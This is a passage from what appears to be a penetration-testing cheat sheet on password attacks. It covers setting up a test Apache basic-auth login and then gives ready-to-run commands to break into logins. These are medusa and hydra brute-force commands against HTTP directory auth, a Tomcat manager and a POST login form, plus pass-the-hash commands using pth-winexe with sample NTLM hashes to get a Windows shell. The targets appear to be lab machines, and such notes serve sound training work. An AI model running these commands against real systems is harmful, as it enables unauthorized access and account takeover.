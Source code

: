 Create .htpasswd file

```
htpasswd -cb .htpasswd test admin
service apache2 restart
```

This will now create a file called .htpasswd with the user: test and the password: admin

If the directory does not display a login-prompt, you might have to change the **apache2.conf** file. To this:

```
<Directory /var/www/html/test>
    AllowOverride AuthConfig
</Directory>
```

**Then bruteforce with**&#x20;

```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

**Tomcat Apache**

```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http://10.10.10.95:8080/manager/html
```

#### HTTP POST Login Form

```
hydra 10.10.10.43 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect*”
```

### Pass The Hash

You can authenticate services by using a valid username and the hash value without a decrypted password.

#### SMB PTH

```
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```

```
pth-winexe -U administrator //$targetip cmd
pth-winexe -U admin/$hash:has //$targetip cmd
```

e.g)&#x20;

```
pth-winexe --user=jeeves/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.exe
```
